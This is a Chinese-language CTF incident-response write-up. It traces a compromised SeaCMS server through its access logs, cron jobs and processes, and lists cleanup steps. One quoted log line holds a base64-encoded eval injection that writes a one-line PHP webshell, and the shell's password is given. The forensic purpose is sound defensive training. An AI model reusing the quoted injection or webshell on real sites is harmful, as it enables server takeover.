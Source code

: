 

# Bugku par 网络安全事件应急响应

## 网络安全事件应急响应

### 提交攻击者的 IP 地址

` awk '{print $1}' access.log | sort | uniq -c | sort -nr`

查看访问最多的 ip 即为攻击者 ip

>1. `awk '{print $1}' access.log`：使用 `awk` 命令打印 `access.log` 文件中每一行的第一个字段，通常这个字段是客户端的 IP 地址。
>2. `| sort`：管道操作符 `|` 将 `awk` 的输出传递给 `sort` 命令，`sort` 将接收到的所有行进行排序。这是为了让相同的 IP 地址可以聚集在一起，以便 `uniq` 命令可以计算它们。
>3. `| uniq -c`：再次使用管道操作符将排序后的数据传递给 `uniq` 命令。`uniq` 命令用于过滤掉连续重复的行，并且 `-c` 选项会在每行前面加上该行在 `sort` 输出中出现的次数，也就是每个 IP 地址出现的次数。
>4. `| sort -nr`：最后一次使用管道将 `uniq` 的输出传递给 `sort` 命令，`-n` 选项指示 `sort` 根据行的数值进行排序，而 `-r` 选项则表示逆序排序（从大到小）。

或者查看日志寻找明显存在可疑操作的 ip

查找日志：`/var/crash# find / -regex ".*access.*\.log"`

![image-20240424161432335](1.assets/image-20240424161432335.png)

筛选响应码 200 的请求：`awk '$9==200' access.log > o.txt`

找到明显可疑的请求

![image-20240424162532789](1.assets/image-20240424162532789.png)

### 提交攻击者目录扫描所使用的工具名称

翻日志就能看到

![image-20240424162722208](1.assets/image-20240424162722208.png)

### 提交攻击者首次攻击成功的时间

![image-20240424162814811](1.assets/image-20240424162814811.png)

解码base64为写入一句话木马

```
38.207.130.14 - - [03/Nov/2023:15:03:35 +0800] "POST /search.php?eval(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJ2EucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/PicpOw==')); HTTP/1.1" 200 4527 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36"
```

![image-20240424162908457](1.assets/image-20240424162908457.png)

### 找到攻击者写入的恶意后门文件

由上面可以看出是`a.php`

### 找到攻击者写入的恶意后门文件密码

可看到密码为`1`

### 找到攻击者隐藏在正常web应用代码中的恶意代码

用D盾扫一下，可以看到`include/webscan/360webscan.php`

![image-20240424163018988](1.assets/image-20240424163018988.png)

里面藏着一段命令执行的代码

![image-20240424163124895](1.assets/image-20240424163124895.png)

### 识别系统中存在的恶意程序进程

查看定时任务，可以看到`www-data`用户有定时任务，查看他的定时任务，发现它定时启动了`/var/crash/php-fpm`这个文件，下载文件之后，放到天穹沙箱内分析

![image-20240424163228519](1.assets/image-20240424163228519.png)

>1. **查看 Cron 作业**: 每个用户的 Cron 作业都存储在 `/var/spool/cron/crontabs` 目录中，每个文件以相应用户的用户名命名。您可以使用 `ls` 命令查看这个目录中有哪些文件，每个文件代表一个用户的 Cron 作业。
>
>   ```
>   ls /var/spool/cron/crontabs
>   ```
>
>2. **查看特定用户的 Cron 作业**: 要查看特定用户的 Cron 作业，您可以使用 `cat`、`less` 或 `more` 命令。由于这些文件的权限设置通常不允许直接查看，因此您需要以 root 身份执行这些命令。
>
>   例如，要查看用户名为 `username` 的用户的 Cron 作业，您可以使用：
>
>   ```
>   sudo cat /var/spool/cron/crontabs/username
>   ```
>
>   或者，如果您已经是 root 用户，可以直接使用：
>
>   ```
>   cat /var/spool/cron/crontabs/username
>   ```
>
>3. **使用 `crontab` 命令**: 对于每个用户，您也可以使用 `crontab` 命令以更安全的方式查看他们的 Cron 作业。作为 root 用户，您可以为任何用户指定 `-u` 选项来查看他们的 Cron 作业。
>
>   例如，查看 `username` 的 Cron 作业：
>
>   ```
>   crontab -u username -l
>   ```
>
>请注意，直接查看或编辑 `/var/spool/cron/crontabs` 目录下的文件不是推荐的做法，因为这可能会绕过某些安全和一致性检查。建议使用 `crontab -e` 来编辑 Cron 作业，使用 `crontab -l` 来查看 Cron 作业。

再执行`ps -ef`，发现启动了大量的`/var/crash/php-fpm`，猜测其为恶意程序

![image-20240424163914068](1.assets/image-20240424163914068.png)

![image-20240424163716014](1.assets/image-20240424163716014.png)

>`ps -ef` 和 `ps aux` 都是在Unix和类Unix系统中使用的命令，用以显示当前运行的进程信息。尽管这两个命令都是用来列出系统中的进程，但它们的格式和底层使用的选项有所不同。
>
>#### `ps -ef`的解释：
>
>- **`-e`** 选项是用来选择所有进程的。
>- **`f`** 选项用于显示完整的格式输出，这个输出格式会提供进程间的层级关系，比如父进程与子进程的关系。
>
>输出通常包括以下列：`UID`（用户ID）、`PID`（进程ID）、`PPID`（父进程ID）、`C`（CPU利用率）、`STIME`（启动时间）、`TTY`（终端类型）、`TIME`（CPU时间）和`CMD`（命令名/执行的指令）。
>
>#### `ps aux`的解释：
>
>- **`a`** 选项表示显示所有用户的进程。
>- **`u`** 选项表示用户友好的风格，输出更多关于进程所有者的信息。
>- **`x`** 选项表示也显示没有控制终端的进程。
>
>输出通常包括：`USER`（拥有者）、`%CPU`（CPU使用率）、`%MEM`（内存使用率）、`VSZ`（虚拟内存大小）、`RSS`（常驻集大小，实际使用的物理内存大小）、`TTY`（终端类型）、`STAT`（进程状态）、`START`（启动时间）、`TIME`（CPU时间），和`COMMAND`（命令名/执行的指令）。
>
>#### 主要区别：
>
>1. **输出格式**：`ps -ef` 提供了一个标准的详细输出，包括了进程的层级关系，而 `ps aux` 提供了更多关于进程使用资源的信息，比如CPU和内存使用率。
>2. **选项差异**：`ps -ef` 使用了POSIX和UNIX标准的选项，而 `ps aux` 更多的是遵循BSD风格的选项。因此，`ps aux` 在一些系统上可能需要写作 `ps aux` 而不是 `ps -aux`，以避免与GNU `ps` 命令的 `-a` 选项冲突。
>
>总体来说，这两个命令各有侧重点，`ps -ef` 更侧重于进程之间的关系，而 `ps aux` 更侧重于进程的资源使用情况。具体使用哪一个，取决于您需要查看的信息类型。

### 识别系统中存在的恶意程序进程

查看报告里给出了外联地址，或者运行程序，查看`netstat -anotp`

![image-20240424163759084](1.assets/image-20240424163759084.png)

![image-20240424164431122](1.assets/image-20240424164431122.png)

### 修复网站漏洞

打开首页发现使用的`海洋CMS` 搜索资料得到修改`/var/www/html/include/main.class.php`文件里面的`parseIf`方法，在数组后面加入一个成员`_SERVER`

### 、删除恶意程序、文件、代码

1. 删除上面`/var/www/html/include/webscan/360webscan.php`中找到的恶意代码
2. 删除`webshell`文件`/var/www/html/a.php`
3. 删除恶意程序`/var/crash/php-fpm`
4. 删除定时任务`crontab -e -u www-data`
